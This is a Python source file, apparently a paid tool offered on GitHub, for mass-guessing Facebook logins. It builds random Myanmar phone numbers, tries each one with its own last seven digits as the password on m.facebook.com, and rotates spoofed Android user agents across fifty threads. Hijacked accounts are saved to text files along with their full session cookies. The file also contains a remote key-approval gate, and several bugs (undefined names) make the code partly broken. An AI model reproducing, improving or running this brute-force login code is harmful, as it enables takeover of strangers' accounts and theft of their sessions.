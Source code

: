# Myimport os,sys,time,json,random,re,string,platform,base64,requests,mechanize,uuid
from concurrent.futures import ThreadPoolExecutor as speed
from requests.exceptions import ConnectionError

logo="""\033[1;37m=================================================
ooo        ooooo oooooo   oooo       .o.       ooooo      ooo ooo        ooooo       .o.       ooooooooo.        
`88.       .888'  `888.   .8'       .888.      `888b.     `8' `88.       .888'      .888.      `888   `Y88.      
 888b     d'888    `888. .8'       .8"888.      8 `88b.    8   888b     d'888      .8"888.      888   .d88'      
 8 Y88. .P  888     `888.8'       .8' `888.     8   `88b.  8   8 Y88. .P  888     .8' `888.     888ooo88P'       
 8  `888'   888      `888'       .88ooo8888.    8     `88b.8   8  `888'   888    .88ooo8888.    888`88b.         
 8    Y     888       888       .8'     `888.   8       `888   8    Y     888   .8'     `888.   888  `88b.       
o8o        o888o     o888o     o88o     o8888o o8o        `8  o8o        o888o o88o     o8888o o888o  o888o                                                                                                                                                                                                                                                                                                                                                   
=================================================
[*] Owner          :  Muhammad Kazim
[*] GitHub         :  UNKN0WN-009
[*] Status         :  Paid
[*] VerSion        :  v_0.1
================================================="""

def clear():
    os.system('clear')
    print(logo)

useragent=[]
for sex in range(5000):
    gt = random.choice(['GT-1015','GT-1020','GT-1030','GT-1035','GT-1040','GT-1045','GT-1050','GT-1240','GT-1440','GT-1450','GT-18190','GT-18262','GT-19060I','GT-19082','GT-19083','GT-19105','GT-19152','GT-19192','GT-19300','GT-19505','GT-2000','GT-20000','GT-200s','GT-3000','GT-414XOP','GT-6918','GT-7010','GT-7020','GT-7030','GT-7040','GT-7050','GT-7100','GT-7105','GT-7110','GT-7205','GT-7210','GT-7240R','GT-7245','GT-7303','GT-7310','GT-7320','GT-7325','GT-7326','GT-7340','GT-7405','GT-7550   5GT-8005','GT-8010','GT-81','GT-810','GT-8105','GT-8110','GT-8220S','GT-8410','GT-9300','GT-9320','GT-93G','GT-A7100','GT-A9500','GT-ANDROID','GT-B2710','GT-B5330','GT-B5330B','GT-B5330L','GT-B5330ZKAINU','GT-B5510','GT-B5512','GT-B5722','GT-B7510','GT-B7722','GT-B7810','GT-B9150','GT-B9388','GT-C3010','GT-C3262','GT-C3310R','GT-C3312','GT-C3312R','GT-C3313T','GT-C3322','GT-C3322i','GT-C3520','GT-C3520I','GT-C3592','GT-C3595','GT-C3782','GT-C6712','GT-E1282T','GT-E1500','GT-E2200','GT-E2202','GT-E2250','GT-E2252','GT-E2600','GT-E2652W','GT-E3210','GT-E3309','GT-E3309I','GT-E3309T','GT-G530H','GT-g900f','GT-G930F','GT-H9500','GT-I5508','GT-I5801','GT-I6410','GT-I8150','GT-I8160OKLTPA','GT-I8160ZWLTTT','GT-I8258','GT-I8262D','GT-I8268','GT-I8505','GT-I8530BAABTU','GT-I8530BALCHO','GT-I8530BALTTT','GT-I8550E','GT-i8700','GT-I8750','GT-I900','GT-I9008L','GT-i9040','GT-I9080E','GT-I9082C','GT-I9082EWAINU','GT-I9082i','GT-I9100G','GT-I9100LKLCHT','GT-I9100M','GT-I9100P','GT-I9100T','GT-I9105UANDBT','GT-I9128E','GT-I9128I','GT-I9128V','GT-I9158P','GT-I9158V','GT-I9168I','GT-I9192I','GT-I9195H','GT-I9195L','GT-I9250','GT-I9303I','GT-I9305N','GT-I9308I','GT-I9505G','GT-I9505X','GT-I9507V','GT-I9600','GT-m190','GT-M5650','GT-mini','GT-N5000S','GT-N5100','GT-N5105','GT-N5110','GT-N5120','GT-N7000B','GT-N7005','GT-N7100T','GT-N7102','GT-N7105','GT-N7105T','GT-N7108','GT-N7108D','GT-N8000','GT-N8005','GT-N8010','GT-N8020','GT-N9000','GT-N9505','GT-P1000CWAXSA','GT-P1000M','GT-P1000T','GT-P1010','GT-P3100B','GT-P3105','GT-P3108','GT-P3110','GT-P5100','GT-P5200','GT-P5210XD1','GT-P5220','GT-P6200','GT-P6200L','GT-P6201','GT-P6210','GT-P6211','GT-P6800','GT-P7100','GT-P7300','GT-P7300B','GT-P7310','GT-P7320','GT-P7500D','GT-P7500M','GT-P7500R','GT-P7500V','GT-P7501','GT-P7511','GT-S3330','GT-S3332','GT-S3333','GT-S3370','GT-S3518','GT-S3570','GT-S3600i','GT-S3650','GT-S3653W','GT-S3770K','GT-S3770M','GT-S3800W','GT-S3802','GT-S3850','GT-S5220','GT-S5220R','GT-S5222','GT-S5230','GT-S5230W','GT-S5233T','GT-s5233w','GT-S5250','GT-S5253','GT-s5260','GT-S5280','GT-S5282','GT-S5283B','GT-S5292','GT-S5300','GT-S5300L','GT-S5301','GT-S5301B','GT-S5301L','GT-S5302','GT-S5302B','GT-S5303','GT-S5303B','GT-S5310','GT-S5310B','GT-S5310C','GT-S5310E','GT-S5310G','GT-S5310I','GT-S5310L','GT-S5310M','GT-S5310N','GT-S5312','GT-S5312B','GT-S5312C','GT-S5312L','GT-S5330','GT-S5360','GT-S5360B','GT-S5360L','GT-S5360T','GT-S5363','GT-S5367','GT-S5369','GT-S5380','GT-S5380D','GT-S5500','GT-S5560','GT-S5560i','GT-S5570B','GT-S5570I','GT-S5570L','GT-S5578','GT-S5600','GT-S5603','GT-S5610','GT-S5610K','GT-S5611','GT-S5620','GT-S5670','GT-S5670B','GT-S5670HKBZTA','GT-S5690','GT-S5690R','GT-S5830','GT-S5830D','GT-S5830G','GT-S5830i','GT-S5830L','GT-S5830M','GT-S5830T','GT-S5830V','GT-S5831i','GT-S5838','GT-S5839i','GT-S6010','GT-S6010BBABTU','GT-S6012','GT-S6012B','GT-S6102','GT-S6102B','GT-S6293T','GT-S6310B','GT-S6310ZWAMID','GT-S6312','GT-S6313T','GT-S6352','GT-S6500','GT-S6500D','GT-S6500L','GT-S6790','GT-S6790L','GT-S6790N','GT-S6792L','GT-S6800','GT-S6800HKAXFA','GT-S6802','GT-S6810','GT-S6810B','GT-S6810E','GT-S6810L','GT-S6810M','GT-S6810MBASER','GT-S6810P','GT-S6812','GT-S6812B','GT-S6812C','GT-S6812i','GT-S6818','GT-S6818V','GT-S7230E','GT-S7233E','GT-S7250D','GT-S7262','GT-S7270','GT-S7270L','GT-S7272','GT-S7272C','GT-S7273T','GT-S7278','GT-S7278U','GT-S7390','GT-S7390G','GT-S7390L','GT-S7392','GT-S7392L','GT-S7500','GT-S7500ABABTU','GT-S7500ABADBT','GT-S7500ABTTLP','GT-S7500CWADBT','GT-S7500L','GT-S7500T','GT-S7560','GT-S7560M','GT-S7562','GT-S7562C','GT-S7562i','GT-S7562L','GT-S7566','GT-S7568','GT-S7568I','GT-S7572','GT-S7580E','GT-S7583T','GT-S758X','GT-S7592','GT-S7710','GT-S7710L','GT-S7898','GT-S7898I','GT-S8500','GT-S8530','GT-S8600','GT-STB919','GT-T140','GT-T150','GT-V8a','GT-V8i','GT-VC818','GT-VM919S','GT-W131','GT-W153','GT-X831','GT-X853','GT-X870','GT-X890','GT-Y8750'])
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12','13'])
    c=f' TL-tl; {str(gt)}'
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    agent=f'{aa} {b}; {c}) {g}{h}.{i}.{j}.{k} {l}'
    useragent.append(agent)

loop = 0
okacc = []
cpacc = []

def Main_Menu():
    clear()
    print('[1] Random Number Cloning')
    print('[2] Contact with Owner')
    print('[3] Exit Main Menu')
    print(49*'=')
    xxx=input('[*] Select Option : ')
    if xxx in ('1','01'):
        myanmar_randm()
    if xxx in ('2','02'):
        os.system('xdg-open https://www.facebook.com/profile.php?id=100047397923568')
    if xxx in ('3','03'):
        exit('\t[*] Bye Bye [*]')
def myanmar_randm():
    user = []
    clear()
    print('[*] Example : 95925, 95967, 95977, 95996')
    print(49*'=')
    code = input('[*] Put Code : ')
    clear()
    print('[*] Example : 1000, 2000, 5000, 10000')
    print(49*'=')
    limit = int(input('[*] Put Limit : '))
    for nmbr in range(limit):
        nbr = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nbr)
    clear()
    with speed(max_workers=50) as crack:
        clear()
        total_ids = str(len(user))
        print('[*] Total ids : '+total_ids)
        print('[*] Process has been started')
        print('[*] Use flight mode for speed up')
        print('[*] Cp ids open after 15 days')
        print(49*'=')
        for love in user:
            ids = code+love
            passlist = [love]
            crack.submit(myanmar_randsub,ids,passlist,total_ids)
    print(49*'=')
    print('[*] Process has been completed')
    print('[*] Total OK/CP/2F '+str(len(okacc))+'/'+str(len(cpacc))+'/'+str(len(tfacc)))
    print('[*] Ok ids are saved in Ok.txt')
    print('[*] Cp ids are saved in Cp.txt')
    print(49*'=')
    input('[*] Press enter to back.')
    os.system('python random.py')
def myanmar_randsub(ids,passlist,total_ids):
    global loop
    global okacc
    global cpacc
    try:
        for pas in passlist:
            best = random.choice(useragent)
            session = requests.Session()
            mobile_fb = session.get('https://m.facebook.com').text
            url = 'https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8'
            payload = {
            "lsd":re.search('name="lsd" value="(.*?)"', str(mobile_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(mobile_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(mobile_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(mobile_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":ids,
            "pass":pas,
            "login":"Log In"}
            header_mobile_fb = {
            'authority': 'm.facebook.com',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'referer': 'https://m.facebook.com/',
            'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Linux; Android 8.1.0; SM-J710GN) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Mobile Safari/537.36'
            }
            lo = session.post(url,data=payload,headers=header_mobile_fb)
            login_cookies=session.cookies.get_dict().keys()
            if 'c_user' in login_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[151:166]
                print(f'\r\033[1;32m[MYA-OK] {cid} | {pas}\r')
                open('Ok.txt', 'a').write(f'[MYA-OK] {cid} | {pas}\n')
                open('cookies.txt', 'a').write(f'COOKIES ~> {coki}\n')
                okacc.append(cid)
                break
            elif 'checkpoint' in login_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[141:156]
                print(f'\r\033[1;35m[MYA-CP] {cid} | {pas}\r')
                open('Cp.txt', 'a').write(f'[MYA-CP] {cid} | {pas}\n')
                cpacc.append(cid)
                break
            else:
                continue
        loop=+1
        sys.stdout.write('\r\033[1;37m[MYA-XD] [%s/%s] [OK:%s] [CP:%s] [2F:%s]\r'%(loop,total_ids,len(okacc),len(cpacc),len(tfacc)))
        sys.stdout.flush()
    except ConnectionError:
        exit('[*] Internet Connection Error')
    except:
        pass
def approve():
  os.system('clear')
  print(logo)
  uuid = str(os.geteuid()) + str(os.getlogin())
  id = ":".join(uuid)
  try:
    keyxhk = requests.get('https://github.com/Mr-Kazim/Random-Test/blob/main/approve.txt').text
    if id in keyxhk:
      os.system('clear')
      print(logo)
      print("\033[1;32m[*] CONGRATS! YOUR KEY IS APPROVED.")
      msg = str(os.geteuid())
      Main()
      pass
    else:
      os.system('clear')
      print(logo)
      print('\033[1;37m[*] Your Key       : \033[1;32m'+id)
      linex()
      print('\033[1;37m[*] Hello Dear! This tool is free.')
      print('[*] But You need to get approve first.')
      linex()
      input('[*] Press enter to Contact.')
      linex()
      txxt = ('Hello%20Sir!%20Please%20approve%20my%20token.%20My%20token%20is%20:%20'+id)
      os.system('xdg-open https://wa.me/+959253141103?text='+txxt)
      approve()
  except ConnectionError:
    exit('\t[*] Internet Connection Error [*]')
Main_Menu()
